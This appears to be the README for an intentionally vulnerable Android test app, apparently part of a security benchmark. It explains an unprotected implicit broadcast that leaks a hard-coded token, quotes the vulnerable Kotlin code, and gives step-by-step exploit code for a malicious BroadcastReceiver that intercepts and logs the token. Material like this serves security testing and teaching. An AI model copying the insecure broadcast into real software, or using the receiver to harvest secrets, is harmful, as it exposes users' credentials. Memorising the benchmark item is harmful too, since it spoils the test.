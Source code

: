 # oxo-android-ben46 Broadcast of sensitive information

### Description

This project demonstrates a critical security vulnerability in an Android application where sensitive information is broadcast without proper protection. The app appears to function normally, but in the background, it exposes a secret token that can be intercepted by any other app on the device.

The vulnerability is located in the `MainActivity.kt` file.

`MainActivity.kt:` The `WebPageButton` Composable sends an implicit broadcast using `context.sendBroadcast()`. This broadcast uses a custom action, `com.example.token`, and includes a sensitive string extra named `TOKEN`. There is no permission check or restriction on who can receive this broadcast.

```
    val tokenIntent = Intent("com.example.token").apply {
            putExtra("TOKEN", "secret_api_key_12345")
        }
        context.sendBroadcast(tokenIntent)
```

The app's behavior is designed to appear innocuous. After broadcasting the token, it immediately opens a webpage using a secure intent (`ACTION_VIEW`). This dual action masks the security flaw, as the user only sees the normal, expected behavior of being redirected to a website.

### Vulnerability Type and Category
-   **Type:** Unprotected broadcast of sensitive information
-   **Category:** Unprotected broadcast of sensitive information

### Difficulty
Easy

## Build and Test Instructions

### Build

This project uses Android Studio with Kotlin. To build the debug APK from the terminal:
```bash
# Navigate into the source code directory first
cd src/
./gradlew build
```
The APK will be located at app/build/outputs/apk/release/app-release-unsigned.apk.

### How to Exploit

1. **Install the Vulnerable App**: Install the `oxo-android-ben46.apk` onto an Android device or emulator.

```
adb install oxo-android-ben46.apk 
```

2. **Set Up the Malicious App**: Create a second, malicious app with a `BroadcastReceiver` that includes an intent filter for the vulnerable broadcast action (`com.example.token`).

In `AndroidManifest.xml`:
```
<receiver android:name=".TokenReceiver" android:exported="true">
    <intent-filter>
        <action android:name="com.example.token" />
    </intent-filter>
</receiver>
```

In the `TokenReceiver.kt`:

```
override fun onReceive(context: Context?, intent: Intent?) {
    if (intent?.action == "com.example.token") {
        val token = intent.getStringExtra("TOKEN")
        Log.d("VulnerableBroadcast", "Intercepted token: $token")
    }
}
```

3 **Install the Malicious App**: Install the malicious app on the same device.

```
abd install malicious-app.apk
```

4. **Trigger the Vulnerability**: Open the vulnerable app and click the "Open example.com" button.

5. **View the Exploit**: Use `adb logcat` to filter the logs for the malicious app's tag. You will see the intercepted token in the logs, confirming that the malicious app successfully captured the sensitive information from the broadcast.

```
adb logcat -s VulnerableBroadcast
```